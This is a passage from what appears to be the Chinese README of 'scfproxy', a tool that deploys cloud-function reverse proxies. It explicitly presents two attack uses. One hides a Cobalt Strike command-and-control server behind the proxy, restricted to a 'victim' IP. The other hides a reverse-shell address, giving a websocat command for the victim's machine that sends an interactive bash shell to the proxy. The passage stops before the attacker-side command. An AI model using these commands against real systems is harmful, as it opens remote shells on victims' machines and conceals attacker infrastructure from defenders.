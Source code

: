`-o origin ` 用于指定需要用于反向代理的回源地址，可接受 HTTP 及 Websocket 协议。

`--ip ip_list` 用于限制访问来源，只有 `ip_list` 中的 ip 才能访问部署返回的反向代理网关地址。

### 使用场景

基于反向代理可有如下使用方法，

#### C2 隐藏

以 cobaltstrike 为例，只需将 api 的域名填入 listener 的 host

```console
scfproxy deploy reverse ... -o http://vps --ip victim
```

![cs.png](img/cs.png)

#### 反弹 shell 地址隐藏

借助 [websocat](https://github.com/vi/websocat) 工具可实现反弹 shell 的功能。

```console
scfproxy deploy reverse ... -o ws://vps --ip victim
```

受害者端执行：

```console
websocat ws://reverse_proxy_address  sh-c:'/bin/bash -i 2>&1' --binary -v --compress-zlib
```

攻击者 vps 执行：
